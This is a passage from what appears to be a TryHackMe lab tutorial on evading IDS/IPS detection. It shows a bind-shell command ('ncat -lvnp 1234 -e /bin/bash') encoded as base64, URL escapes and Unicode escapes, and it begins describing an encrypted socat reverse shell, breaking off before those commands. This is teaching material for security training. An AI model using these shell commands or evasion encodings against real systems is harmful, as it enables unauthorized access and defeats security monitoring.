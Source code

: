 `ncat -lvnp 1234 -e /bin/bash` is encoded to `bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==`.

#### URL Encoding

URL encoding converts certain characters to the form %HH, where HH is the hexadecimal ASCII representation. English letters, period, dash, and underscore are not affected. You can refer to [section 2.4 in RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986#section-2.4) for more information.

One utility that you can easily install on your Linux system is `urlencode`; alternatively, you can either use an online service or search for similar utilities on MS Windows and macOS. To follow along on the AttackBox, you can install `urlencode` by running the command `apt install gridsite-clients`.

Pentester Terminal

```shell-session
pentester@TryHackMe$ urlencode ncat -lvnp 1234 -e /bin/bash
ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash
```

`ncat -lvnp 1234 -e /bin/bash` becomes `ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbash` after URL encoding. Depending what the IDS/IPS signature is matching, URL encoding might help evade detection.

#### Use Escaped Unicode

Some applications will still process your input and execute it properly if you use escaped Unicode. There are multiple ways to use escaped Unicode depending on the system processing the input string. For example, you can use [CyberChef](https://icyberchef.com/) to select and configure the Escape Unicode Characters recipe as shown in the image below.

1. Search for _Escape Unicode Characters_
2. Drag it to the _Recipe_ column
3. Ensure you a check-mark near _Encode all chars_ with a prefix of `\u`
4. Ensure you have a check-mark near _Uppercase hex_ with a padding of 4

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/f330a782dc93a8b227fc93231aa1649a.png)  

If you use the format `\uXXXX`, then `ncat -lvnp 1234 -e /bin/bash` becomes `\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`. It is clearly a drastic transformation that would help you evade detection, assuming the target system will interpret it correctly and execute it.

### Encrypt the Communication Channel

Because an IDS/IPS won’t inspect encrypted data, an attacker can take advantage of encryption to evade detection. Unlike encoding, encryption requires an encryption key.

One direct approach is to create the necessary encryption key on the attacker’s system and set `socat` to use the encryption key to enforce encryption as it listens for incoming connections. An encrypted reverse shell can be carried out in three steps:

1. Create the key
2. Listen on the attacker’s machine
3. Connect to the attacker’s machine

**Firstly**, On the AttackBox or any Linux system, we can create the key using `openssl`.
